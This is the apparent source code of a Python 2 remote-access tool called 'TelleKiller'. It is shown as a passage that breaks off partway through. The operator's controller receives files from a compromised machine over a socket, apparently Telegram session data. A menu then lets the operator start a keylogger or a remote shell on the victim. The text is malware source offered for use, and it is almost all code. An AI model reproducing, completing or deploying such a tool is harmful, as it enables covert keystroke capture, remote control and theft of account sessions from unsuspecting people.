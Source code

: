 # TelleKiller

# -*- coding: UTF-8 -*-
import socket
from os import system,popen,path,remove
import sys
from colorama import Fore,init,Back
from random import random
import time
init(autoreset=True)
def download_tdata(client,file_save):
    try:
        data_file=client.recv(1024)
    except:
        print (Back.BLUE+"\nSession Closed\n")
        return False
    else:
        while(data_file):
            if 'pishmarg' in data_file:
                break
            else:
                file_save.write(data_file)
                try:
                    data_file=victim.recv(1024)
                except:
                    print (Back.BLUE+"\nSession Closed\n")
                    return False
                    break
        data_file=data_file.replace('pishmarg','')
        if len(data_file)!=0:
            file_save.write(data_file)
def check_integer(num):
    try:
        int(num)
    except:
        return False
    else:
        return True
def shell_or_keylogger(client):
    print (Fore.BLACK+"#"*39)
    print (Fore.WHITE+"ID\tItem")
    print (Fore.WHITE+"===\t====")
    print (Fore.GREEN+"[0]\t"+Fore.YELLOW+"Keylogger")
    print (Fore.GREEN+"[1]\t"+Fore.YELLOW+"Shell\n")
    print (Fore.WHITE+"\n====\t====\n"+Fore.GREEN+"[99]"+Fore.YELLOW+"\texit\n")
    licen_item=0
    while True:
        try:
            soks=raw_input(Fore.CYAN+'SELECT> ')
        except:
            pass
        if soks=='1' or soks=='0':
            if soks=='0':
                try:
                    client.send('keylo')
                except:
                    print (Back.BLUE+"\nSession Closed\n")
                    return False
                    break
                else:
                    licen_item=1